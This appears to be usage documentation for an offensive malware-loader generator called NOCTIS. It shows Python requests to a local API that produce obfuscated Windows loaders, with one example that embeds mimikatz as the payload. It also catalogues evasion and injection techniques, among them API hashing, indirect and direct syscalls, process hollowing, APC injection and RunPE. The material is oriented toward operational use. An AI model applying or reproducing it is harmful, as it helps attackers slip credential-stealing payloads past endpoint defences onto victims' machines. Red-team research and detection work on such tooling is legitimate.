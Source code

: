 
## Code Generation

### Generate Simple Loader

**Python:**
```python
import requests

response = requests.post('http://localhost:5000/api/generate', json={
    'techniques': ['NOCTIS-T124', 'NOCTIS-T118'],
    'target_os': 'Windows 11',
    'obfuscate': True
})

code = response.json()['code']
print(code)
```

### Generate with Specific Payload

```python
# Read payload (e.g., mimikatz)
with open('mimikatz.exe', 'rb') as f:
    payload = f.read()

# Generate loader with embedded payload
response = requests.post('http://localhost:5000/api/generate', json={
    'techniques': ['NOCTIS-T124', 'NOCTIS-T118', 'NOCTIS-T089'],
    'payload': payload.hex(),
    'payload_type': 'pe',
    'obfuscate': True
})
```

### Available Techniques by Function

**API Obfuscation:**
- NOCTIS-T001: DJB2 hashing
- NOCTIS-T002: ROT13+XOR hashing
- NOCTIS-T003: CRC32 hashing

**Syscalls:**
- NOCTIS-T124: HellsHall (indirect)
- NOCTIS-T125: Trap flag syscalls
- NOCTIS-T126: Direct syscalls

**Injection:**
- NOCTIS-T055: Process hollowing
- NOCTIS-T056: APC injection
- NOCTIS-T057: Thread pool injection
- NOCTIS-T089: RunPE
